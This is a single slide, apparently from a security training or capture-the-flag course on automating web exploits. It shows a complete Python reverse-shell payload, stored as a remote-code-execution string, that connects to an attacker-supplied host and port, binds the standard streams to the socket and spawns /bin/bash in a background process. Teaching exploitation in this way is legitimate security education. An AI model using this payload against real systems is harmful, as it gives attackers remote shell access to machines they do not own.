

Web (cont.)
Basic Web : Automating Web Exploits
Our malicious code is a reverse shell that takes advantage of multiprocessing
OUR_RCE_CODE = """
from multiprocessing import Process
def do_reverse_shell():
    import socket, os, pty
    HOST = "{}"
    PORT = {}
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
p = Process(target=do_reverse_shell)
p.start()
from time import sleep
sleep(10)
"""
40